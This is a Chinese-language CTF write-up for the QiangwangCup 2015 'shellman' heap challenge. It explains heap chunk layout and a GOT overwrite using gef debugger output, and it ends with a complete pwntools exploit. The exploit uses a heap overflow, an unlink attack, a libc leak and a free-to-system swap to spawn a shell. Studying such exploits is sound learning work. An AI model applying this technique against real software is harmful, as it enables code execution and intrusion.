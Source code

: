 ```yaml
---
title: QiangwangCup-2015-shellman
date: 2018-10-11 19:52:38
tags: [CTF,unlink]
categories: heap
---
```

### 刚开始接触堆，将解决的不懂的记录一下，后续会继续更正之前错误的认识。

## 指向堆的指针的问题
程序存在一个结构体，存在三个变量
```
.bss:00000000006016C0 ; __int64 qword_6016C0[]
.bss:00000000006016C0 qword_6016C0    dq ?                    ; DATA XREF: main+38↑o
.bss:00000000006016C0                                         ; .text:0000000000400A90↑o ...
.bss:00000000006016C8 ; __int64 qword_6016C8[]
.bss:00000000006016C8 qword_6016C8    dq ?                    ; DATA XREF: sub_400B40+B5↑w
.bss:00000000006016C8                                         ; sub_400CE0+79↑w
.bss:00000000006016D0 ; __int64 qword_6016D0[]
.bss:00000000006016D0 qword_6016D0    dq ?                    ; DATA XREF: sub_400B40+BC↑w
.bss:00000000006016D0                                         ; sub_400C30+73↑r ...
```

申请了3个大小均为0xa0的chunk后，堆布局如下：
```
gef➤  heap chunks
Chunk(addr=0x1592010, size=0xb0, flags=PREV_INUSE)
    [0x0000000001592010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x15920c0, size=0xb0, flags=PREV_INUSE)
    [0x00000000015920c0     62 62 62 62 62 62 62 62 62 62 62 62 62 62 62 62     bbbbbbbbbbbbbbbb]
Chunk(addr=0x1592170, size=0xb0, flags=PREV_INUSE)
    [0x0000000001592170     2f 62 69 6e 2f 73 68 3b 63 63 63 63 63 63 63 63     /bin/sh;cccccccc]
Chunk(addr=0x1592220, size=0x20df0, flags=PREV_INUSE)  ←  top chunk
```

查看这个结构体，可以看到结构体的第一个变量表示是否正在使用，第二个变量表示申请的堆大小，第三个变量是一个指向堆的指针，`0x6016d0是一个指针`，这个指针指向堆上的一个地址0x1592010，这个地址也是malloc返回的地址。
```
gef➤  x/9gx 0x6016c0
0x6016c0:	0x0000000000000001	0x00000000000000a0
0x6016d0:	0x0000000001592010	0x0000000000000001
0x6016e0:	0x00000000000000a0	0x00000000015920c0
0x6016f0:	0x0000000000000001	0x00000000000000a0
0x601700:	0x0000000001592170
```

## 堆大小的问题
程序malloc(0xa0)申请了0xa0大小的chunk，查看堆布局发现在size字段中，大小为0xb0。
**所以申请了0xa0的chunk，该chunk真正的大小为0xa0+8+8=0xb0**
```
gef➤  heap chunks
Chunk(addr=0x1592010, size=0xb0, flags=PREV_INUSE)
    [0x0000000001592010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
```

如下所示，多了16字节的数据，分别是0x00和0x10。有一个疑问，在被释放的chunk中0x1592000中的数据应该是prev_size，在正被使用的chunk中，这部分数据全是0。而0x1592008中的数据就是当前chunk的大小和前一个chunk是否被使用的标志位。
```
gef➤  x/10gx 0x1592000
0x1592000:	0x0000000000000000	0x00000000000000b1
0x1592010:	0x6161616161616161	0x6161616161616161
0x1592020:	0x6161616161616161	0x6161616161616161
0x1592030:	0x6161616161616161	0x6161616161616161
0x1592040:	0x6161616161616161	0x6161616161616161
```

## system（chunk2中的内容）为什么会执行shell
调试发现，程序在执行`call   0x400620 <free@plt>`时会将chunk中的内容存放到rdi寄存器中
```
free@plt (
   $rdi = 0x00000000012410c0 → "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb[...]",
   $rsi = 0x0000000000000001,
   $rdx = 0x0000000000000000
)
```
所以/bin/sh;被存放到rdi寄存器，执行system函数时，就调用了shell。


## 程序
程序edit部分未能对长度进行检测，导致出现堆溢出漏洞。第一次edit，free是为了获取一个原指向堆的可控指针`0x6016d0 -> 0x6016b8`。第二次edit，将该指针`0x6016d0`指向free@got，然后通过list获取free@got的地址，计算libc的基址，通过偏移计算出system的地址。第三次edit将system的地址写入free@got指向的地址，free函数就被替换成system函数了，释放chunk2后，即获取shell。

## EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./shellman')

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def list_code():
	p.recvuntil('>')
	p.sendline('1')
	p.recvuntil('SHELLC0DE 0: ')
	return p.read(16).decode('hex')[::-1].encode('hex')

def new_code(code):
	p.recvuntil('>')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(len(code)))
	p.recvuntil(':')
	p.sendline(code)

def edit_code(num,code):
	p.recvuntil('>')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(num))
	p.recvuntil(':')
	p.sendline(str(len(code)))
	p.recvuntil(':')
	p.sendline(code)

def delete_code(num):
	p.recvuntil('>')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(num))
chunk0_size = 0xa0
chunk1_size = 0xa0
ptr_addr = 0x6016d0
free_got = 0x601600

def exp():
	new_code('a'*0xa0)
	new_code('b'*0xa0)
	new_code('/bin/sh;'+'c'*0x98)
	prev_size_0 = p64(0)
	size_0 = p64(chunk0_size | 0x1)
	fd_0 = p64(ptr_addr - 0x18)
	bk_0 = p64(ptr_addr - 0x10)
	user_data = 'd' * (chunk0_size - 0x20)
	prev_size_1 = p64(chunk0_size)
	size_1 = p64(chunk1_size + 0x10)
	payload1  = prev_size_0 + size_0 + fd_0 + bk_0 +user_data + prev_size_1 + size_1
	gdb.attach(p)
	edit_code(0,payload1)
	delete_code(1)          # 0x6016d0 -> 0x6016b8

	payload2 = p64(0x0) + p64(0x1) + p64(0xa) + p64(free_got)
	edit_code(0,payload2)   # 0x6016d0 -> 0x601600(free_got)
	free_addr = list_code()
	print 'free_addr: ' + free_addr
	libc_base = int(free_addr,16) - 0x844f0
	print 'libc_base: ' + str(hex(libc_base))
	system_addr = libc_base + 0x45390
	print 'system_addr ' + str(hex(system_addr))
	edit_code(0,p64(system_addr))
	delete_code(2)
	p.interactive()

exp()
```
